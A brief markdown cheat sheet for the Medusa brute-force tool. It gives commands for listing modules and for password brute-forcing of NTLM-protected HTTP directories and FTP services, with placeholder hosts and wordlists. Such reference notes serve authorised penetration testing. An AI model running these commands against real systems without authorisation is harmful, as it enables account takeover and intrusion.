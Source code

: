 # List all modules
```sh
medusa -d
```

# Display module options
```sh
medusa -M ssh -q
```

# NTLM brute force
```sh
# -s: Enable SSL
# -t: Total number of logins to be tested concurrently
# -b: Suppress startup banner
medusa -h "<domain/host>" -s -U <file_with_users> -P <file_with_passwords> -M http -m AUTH:NTLM -m DIR:"<directory>" -m DOMAIN:"<domain_of_users>" -t 10 -b -O <output_files>
```

# Brute force usernames and passwords over FTP
```sh
# -f: Stop scanning host after first valid username/password found.
medusa -h <ip> -U <path_to_usernames> -P <path_to_passwords> -M ftp -n <port> -e ns -f -t 4
```

